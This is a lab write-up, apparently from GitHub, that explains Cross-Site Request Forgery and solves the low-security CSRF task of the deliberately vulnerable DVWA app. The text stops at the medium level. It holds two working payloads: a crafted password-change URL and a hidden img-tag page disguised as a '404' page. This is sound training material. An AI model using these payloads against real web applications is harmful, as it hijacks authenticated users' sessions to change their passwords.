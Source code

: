 ## Description of CSRF
* CSRF : Cross-Site-Request-Forgery is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.With helping of such as sending a link via email or chat, or embedded a link in <img> tag, an attacker may trick the users of web application into executing actions of the attacker's choosing.If the Victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transfering funds, changing their email address, and so forth.If Victim is an administrative account, CSRF can compromise the entire web application. (Description content extracted from https://owasp.org/www-community/attacks/csrf)
* It's sometimes possible to store CSRF attack on the vulnerable site itself. Such vulnerablilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack.

# Task-2 of DVMA
## Solutions of CSRF
* The key of CSRF attack is that, send the request forgery by using victim's cookies.
### Low Security Level
* Soulution-1:
  * Construct the link as follow: 
  
        http://192.168.178.34/vulnerabilities/csrf/?pass_new=password&pass_conf=password&Change=Change#
  
* Solution-2:
  * Construct an attack page as follow, then upload to the web appliaction, and trick the users of web application into executing actions of attacker choosing.
  
        <img src="http://192.168.178.34/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>
        <h1>404<h1>
        <h2>file not found.<h2>

### Medium Security Level
